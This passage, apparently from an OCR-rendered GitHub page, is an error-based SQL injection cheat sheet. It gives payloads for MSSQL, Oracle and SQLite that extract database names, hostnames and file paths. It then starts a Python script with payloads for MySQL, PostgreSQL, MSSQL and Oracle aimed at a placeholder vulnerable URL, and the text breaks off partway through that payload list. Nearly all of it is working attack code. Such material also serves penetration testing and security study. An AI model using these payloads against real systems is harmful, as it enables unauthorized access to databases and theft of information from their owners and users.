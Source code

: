 ### MSSQL

#### Extracting Database Name
- Use error-based injection to extract the current database name.
  ```sql
  '; SELECT 1 WHERE 1=CAST(DB_NAME() AS INT) --
  ```

#### Extracting Hostname
- Use error-based injection to extract the server hostname.
  ```sql
  '; SELECT 1 WHERE 1=CAST(@@servername AS INT) --
  ```

### Oracle

#### Extracting Database Name
- Use error-based injection to extract the current database name.
  ```sql
  ' UNION SELECT NULL FROM dual WHERE 1=CAST((SELECT ora_database_name FROM dual) AS INT) --
  ```

#### Extracting Hostname
- Use error-based injection to extract the hostname.
  ```sql
  ' UNION SELECT NULL FROM dual WHERE 1=CAST((SELECT SYS_CONTEXT('USERENV', 'HOST') FROM dual) AS INT) --
  ```

### SQLite

#### Extracting Database Name
- SQLite uses a single database per file, but you can force errors to reveal database-related information.
  ```sql
  ' AND 1=CAST((SELECT name FROM sqlite_master WHERE type='table' LIMIT 1) AS INT) --
  ```

#### Extracting Hostname
- SQLite does not inherently have a hostname since it’s a file-based database. However, you can infer file paths which might give clues.
  ```sql
  ' AND 1=CAST((SELECT file FROM pragma_database_list LIMIT 1) AS INT) --
  ```

### Python Script to Automate the Process

```python
import requests

url = "http://example.com/vulnerable.php"
payloads = [
    # MySQL
    "' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT database()), 0x3a, FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- ",
    "' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT @@hostname), 0x3a, FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- ",
    # PostgreSQL
    "' AND 1=CAST((SELECT current_database()) AS INT) -- ",
    "' AND 1=CAST((SELECT inet_server_addr()) AS INT) -- ",
    # MSSQL
    "; SELECT 1 WHERE 1=CAST(DB_NAME() AS INT) -- ",
    "; SELECT 1 WHERE 1=CAST(@@servername AS INT) -- ",
    # Oracle
    "' UNION SELECT NULL FROM dual WHERE 1=CAST((SELECT ora_database_name FROM dual) AS INT) -- ",
```